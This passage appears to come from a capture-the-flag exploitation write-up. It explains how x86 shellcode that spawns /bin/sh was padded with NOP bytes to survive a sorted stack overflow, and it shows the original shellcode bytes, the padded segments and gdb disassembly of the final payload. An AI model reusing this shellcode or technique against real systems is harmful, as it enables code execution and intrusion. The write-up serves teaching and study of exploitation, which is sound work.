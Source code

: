 The last thing we need to worry about is our shellcode, since we will need to know where it is on the stack to execute it, and we also need to make sure it stays intact and in the correct order after it is sorted. The way I accomplished this is by appending the `0x90` byte a certain amount of times tot he front of ceratin parts of shellcode. This is because when executed `0x90` is the opcode for `NOP` which continues execution and doesn't effect our shellcode in any important way, and it will be evaluated as less than values starting with `0x804` so it won't affect the stack canary or what we did to write over the return address.

However when we insert the NOPs into our shellcode, we will have to rewite/recompile the shellcode. The reason for this, is because if we just insert NOPs into random places, there is a good chance we will insert a NOP in the middle of an instruction, which will change what the instruction does. Also note, the base shellcode I did not write. I grabbed it from `http://shell-storm.org/shellcode/files/shellcode-599.php` and modified it. Also I found that this website which is an online x86/x64 decompiler/compiler helped `https://defuse.ca/online-x86-assembler.htm`:

here is the shellcode before we modified it:
```
0:  6a 17                   push   0x17
2:  58                      pop    eax
3:  31 db                   xor    ebx,ebx
5:  cd 80                   int    0x80
7:  50                      push   eax
8:  68 2f 2f 73 68          push   0x68732f2f
d:  68 2f 62 69 6e          push   0x6e69622f
12: 89 e3                   mov    ebx,esp
14: 99                      cdq
15: 31 c9                   xor    ecx,ecx
17: b0 0b                   mov    al,0xb
19: cd 80                   int    0x80 
```

This shellcode is `27` bytes. After we figure out how to split the individual commands up with `\x90`s in a way that the instructions will still execute properly, and after the sorting the shellcode will be in the proper order, we get the following segments:

```
0x9101eb51e1f7c931:

0x90909068732f2f68:

0x9090406e69622f68:

0x900080cd0bb0e389:
```

keep in mind, because of how the data is stored, the last four bytes will be executed first. After a lot of trial and error, we see that this is our shellcode:

```
gdb-peda$ x/16i 0xffff7ca0
   0xffff7ca0:	xor    ecx,ecx
   0xffff7ca2:	mul    ecx
   0xffff7ca4:	push   ecx
   0xffff7ca5:	jmp    0xffff7ca8
   0xffff7ca7:	xchg   ecx,eax
   0xffff7ca8:	push   0x68732f2f
   0xffff7cad:	nop
   0xffff7cae:	nop
   0xffff7caf:	nop
   0xffff7cb0:	push   0x6e69622f
   0xffff7cb5:	inc    eax
   0xffff7cb6:	nop
   0xffff7cb7:	nop
   0xffff7cb8:	mov    ebx,esp
   0xffff7cba:	mov    al,0xb
   0xffff7cbc:	int    0x80
```

